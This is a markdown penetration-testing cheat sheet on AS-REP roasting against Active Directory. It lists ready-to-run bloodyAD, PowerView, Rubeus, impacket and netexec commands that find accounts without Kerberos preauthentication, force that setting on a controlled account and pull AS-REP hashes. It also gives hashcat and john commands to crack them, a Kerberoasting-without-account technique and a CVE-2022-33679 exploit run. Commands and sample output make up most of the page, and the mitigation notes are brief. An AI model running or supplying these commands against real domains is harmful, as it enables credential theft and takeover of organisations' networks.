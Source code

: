 # Roasting - ASREP Roasting

> If a domain user does not have Kerberos preauthentication enabled, an AS-REP can be successfully requested for the user, and a component of the structure can be cracked offline a la kerberoasting

## Requirements:

### Accounts with the attribute 'DONT_REQ_PREAUTH'
* Linux:
    ```bash
    bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName  
    ```

* Windows (Powerview) only:

    ```ps1
    Get-DomainUser -UACFilter DONT_REQ_PREAUTH
    PowerView > Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
    ```
* Windows (Rubeus):
    ```ps1
    Rubeus.exe asreproast /format:hashcat
    ```
### Set DON'T_REQ-PREAUTH using Powerview
> Useful if you have generic all over an account and don't want to reset the password   
    
    Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose

## ASREP Roast from Windows
### [Rubeus](https://github.com/GhostPack/Rubeus)

  ```powershell
  C:\Rubeus>Rubeus.exe asreproast /user:TestOU3user /domain:<domain /dc:<dc fQDN> format:hashcat /nowrap /outfile:hashes.asreproast
  [*] Action: AS-REP roasting
  [*] Target User            : TestOU3user
  [*] Target Domain          : testlab.local
  [*] SamAccountName         : TestOU3user
  [*] DistinguishedName      : CN=TestOU3user,OU=TestOU3,OU=TestOU2,OU=TestOU1,DC=testlab,DC=local
  [*] Using domain controller: testlab.local (192.168.52.100)
  [*] Building AS-REQ (w/o preauth) for: 'testlab.local\TestOU3user'
  [*] Connecting to 192.168.52.100:88
  [*] Sent 169 bytes
  [*] Received 1437 bytes
  [+] AS-REQ w/o preauth successful!
  [*] AS-REP hash:

  $krb5asrep$TestOU3user@testlab.local:858B6F645D9F9B57210292E5711E0...(snip)...
  ```
## ASREP Roast from Linux
* [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) from Impacket Suite

  ```bash
  $ python GetNPUsers.py htb.local/svc-alfresco -no-pass
  [*] Getting TGT for svc-alfresco
  $krb5asrep$23$svc-alfresco@HTB.LOCAL:c13528009a59be0a634bb9b8e84c88ee$cb8e87d02bd0ac7a[...]e776b4

  # extract hashes
  root@kali:impacket-examples$ python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
  root@kali:impacket-examples$ python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
  ```

* netexec Module

  ```bash
  $ netexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --asreproast output.txt
  LDAP        10.0.2.11       389    dc01           $krb5asrep$23$john.doe@LAB.LOCAL:5d1f750[...]2a6270d7$096fc87726c64e545acd4687faf780[...]13ea567d5
  ```

Using `hashcat` or `john` to crack the ticket.

```powershell
# crack AS_REP messages with hashcat
root@kali:impacket-examples$ hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt 
root@windows:hashcat$ hashcat64.exe -m 18200 '<AS_REP-hash>' -a 0 c:\wordlists\rockyou.txt

# crack AS_REP messages with john
C:\Rubeus> john --format=krb5asrep --wordlist=passwords_kerb.txt hashes.asreproast
```

**Mitigations**:

* All accounts must have "Kerberos Pre-Authentication" enabled (Enabled by Default).

## Kerberoasting w/o domain account

> In September 2022 a vulnerability was discovered by [Charlie Clark](https://exploit.ph/), ST (Service Tickets) can be obtained through KRB_AS_REQ request without having to control any Active Directory account. If a principal can authenticate without pre-authentication (like AS-REP Roasting attack), it is possible to use it to launch an **KRB_AS_REQ** request and trick the request to ask for a **ST** instead of a **encrypted TGT**, by modifying the **sname** attribute in the req-body part of the request.

The technique is fully explained in this article: [Semperis blog post](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/).

:warning: You must provide a list of users because we don't have a valid account to query the LDAP using this technique.

* [impacket/GetUserSPNs.py from PR #1413](https://github.com/fortra/impacket/pull/1413)

  ```powershell
  GetUserSPNs.py -no-preauth "NO_PREAUTH_USER" -usersfile "LIST_USERS" -dc-host "dc.domain.local" "domain.local"/
  ```

* [GhostPack/Rubeus from PR #139](https://github.com/GhostPack/Rubeus/pull/139)

  ```powershell
  Rubeus.exe kerberoast /outfile:kerberoastables.txt /domain:"domain.local" /dc:"dc.domain.local" /nopreauth:"NO_PREAUTH_USER" /spn:"TARGET_SERVICE"
  ```

## CVE-2022-33679

> CVE-2022-33679 performs an encryption downgrade attack by forcing the KDC to use the RC4-MD4 algorithm and then brute forcing the session key from the AS-REP using a known plaintext attack, Similar to AS-REP Roasting, it works against accounts that have pre-authentication disabled and the attack is unauthenticated meaning we don’t need a client’s password..

Research from Project Zero : [RC4 Is Still Considered Harmful - James Forshaw](https://googleprojectzero.blogspot.com/2022/10/rc4-is-still-considered-harmful.html)

**Requirements**:

Accounts with the attribute **DONT_REQ_PREAUTH**

* Windows/Linux:

    ```ps1
    bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName  
    ```

* Windows only:

    ```ps1
    PowerView > Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
    ```

**Exploitation**:

* Using [CVE-2022-33679.py](https://github.com/Bdenneu/CVE-2022-33679)

  ```bash
  user@hostname:~$ python CVE-2022-33679.py DOMAIN.LOCAL/User DC01.DOMAIN.LOCAL
  user@hostname:~$ export KRB5CCNAME=/home/project/User.ccache
  user@hostname:~$ netexec smb DC01.DOMAIN.LOCAL -k --shares
  ```

**Mitigations**:

* All accounts must have "Kerberos Pre-Authentication" enabled (Enabled by Default).
* Disable RC4 cipher if possible.

## References

* [Roasting AS-REPs - January 17, 2017 - harmj0y](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)
* [Kerberosity Killed the Domain: An Offensive Kerberos Overview - Ryan Hausknecht - Mar 10](https://posts.specterops.io/kerberosity-killed-the-domain-an-offensive-kerberos-overview-eb04b1402c61)
